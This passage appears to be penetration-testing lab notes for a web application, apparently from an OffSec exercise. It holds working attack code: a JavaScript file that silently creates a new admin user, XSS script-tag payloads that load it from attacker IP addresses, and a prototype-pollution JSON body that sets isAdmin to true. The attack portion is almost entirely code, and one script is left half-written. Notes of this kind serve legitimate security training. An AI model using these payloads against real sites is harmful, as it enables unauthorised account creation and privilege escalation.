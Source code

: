 ```js
	})
	.then(response=>response.json())
	.then((data) => {
		if(data.status == "ok") {
			if("token" in data){
				localStorage.setItem('token', data.token);
			}
			if(data.isAdmin === "true") {
				window.location.href="/admin.php";
			} else {
				window.location.href="/profile.php";
			}
			
		} else {
            $('#message').text(data.message);
            $('#message').show();
        }
	});
```

usercreation.js
```js
var xhttp = new XMLHttpRequest(); // to create a request object
var creds = 'email=jbug@offsec.local&password=jbug&name=jbug&username=jbug' // to create string of credentials that were in main.js
xhttp.open("GET", "/admin/users/add?" + creds, true); // preparing to add new user to admin user - calls upon creds variable
xhttp.send(); // sending the request to the server
```
`xss` payload
```bash
<script src="http://192.168.45.231:8000/usercreation.js"></script>
```


adminlogin2.js
```js
var username = $('testing').val();
var password = $('testing').val();
var postBody = "username="+username+"&password="+password;
var isAdmin = true;
```
`xss` payload
```bash
<script src="http://192.168.49.61:80/adminlogin2.js"></script>
```


```bash
{  
"__proto__": {  
"isAdmin": true  
}  
}
```
